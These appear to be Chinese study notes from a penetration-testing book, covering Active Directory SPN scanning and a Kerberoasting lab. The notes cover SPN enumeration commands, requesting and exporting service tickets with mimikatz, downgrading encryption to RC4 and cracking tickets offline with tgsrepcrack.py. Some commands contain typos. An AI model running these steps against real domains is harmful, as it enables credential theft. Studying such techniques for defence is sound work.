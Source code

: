 > MSSQLSvc: 服务组件的名称,此处为MSSQL服务
> computer1.pentest.com: 主机名为computer1,域名为pentest.com
> 1433: 监听的端口为1433
>hostname和port之间的冒号只有在该服务对某端口监听时才会使用
Exchange服务的示例代码
`exchangeMDB/EXCAS01.pentest.com`
RDP服务的示例代码
`TERMSERV/EXCA01.pentest.com`
WSMan/WinRM/PSRemoting服务的示例代码
`WSMAN/EXCAS01.pentest.com`
+ 用于进行SPN扫描的PowerShell脚本
	+ PowerShell-AD-Recon
	1. 利用SPN发现域中所有的MSSQL服务
	```poewrshell
	Impotr-Module .\Discover-PSMSSQLServers.ps1
	Discover-PSMSSQLServers
	```
	2. 扫描域中的所有SPN信息
	```poewrshell
	Impotr-Module .\Discover-PSInterestingServices.ps1
	Discover-PSInterestingServices
	```
	+ setspn
	> windows自带
	列出域中所有SPN信息
	`setspn -T domain -q */*`
### 5.10.2 kerberoast攻击分析与防范(266页)
+ 实验:配置MSSQL服务,破解该服务器票价
	1). 手动为mssql帐号注册APN
	`setspn -A MSSQLSvc/computer1pentest.com:1433 mssql`
	2). 查看用户所对应的SPN
	```cmd
	//查看所有注册的SPN
	setspn -T domain -q */*
	//查看制定用户注册的SPN
	setspn -L pentest.com/mssql
	```
	3). 使用adsiedit.msc查看用户SPN及其它高级属性
	4). 配置指定服务的登录权限
	在活动目录中为用户配置指定服务的登录权限
	`gpedit.msc\Computer Configuration\Windows Settings\Security Settings\LocalPolicies\User Rights Assignment\Log on as a service`
	5). 修改加密类型
	因为kerberos协议的默认加密方式为AES256_HMAC.而通过tgsrepcrack.py无法破解该加密方式,所以,攻击者会通过服务器组策略将加密方式设置为RC4_HMAC_MD5
	`gpedit.msc\Computer Configuration\Windows Settings\Security Settings\LocalPolicies\security Options\Network security: Configure encryption types allowed for kerberos`
	6). 请求SPN Kerberos票据
	```powershell
	Add-Type -AssemblyName System.IdentityModel
	New-Object System.IdenttityModel.Tokens.KerberosRequestor SecurityToken -ArgumentList "MSSQLSvc/computer1.pentest.com"
	```
	7). 导出票据
	在mimikatz中执行如下命令,导出的票据会保存在当前目录下的一个kirbi文件中,其加密方式为RC4_HMAC_MD5
	`kerberos::list /export`
	8). 使用kerberoast脚本离线破解票据对应帐号的NTLM Hash
`python tgsrepcrack.py wordlist.txt mssql.kirbi
+ 防范建议(269页)
## 5.11 Exchang邮件服务器安全防范
### 5.11.1 Exchang邮件服务器介绍
+ 邮件服务器角色介绍(270页)